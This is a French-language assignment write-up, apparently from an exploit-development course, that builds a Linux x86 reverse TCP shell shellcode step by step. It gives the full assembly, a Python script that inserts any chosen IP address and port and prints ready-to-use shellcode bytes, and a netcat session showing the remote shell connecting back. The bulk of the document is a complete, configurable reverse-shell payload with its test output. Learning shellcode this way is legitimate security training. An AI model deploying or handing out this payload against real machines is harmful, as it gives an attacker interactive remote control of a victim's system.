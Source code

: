 # Assignement 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principal référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. Nous prenons le protocol IP de type SOCK_STREAM.

```c
	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80
```
## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    	push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```



## Code complet ##

```c
; Shell_reverse_Tcp shellcode
; Author: Alain Menelet
; Taille : 74 bytes
; 2017


global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80

	; we need to save the result of socket function for later usage

	xchg edx, eax

	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80	

```

## Exécution ##

Sur le premier terminal:
```
./shellcode.c
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

## Améliorer la saisie de l'adresse IP et du port ##

Pour cette partie, python s'avère être plus pratique que le C.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverser TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./reverse_script.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```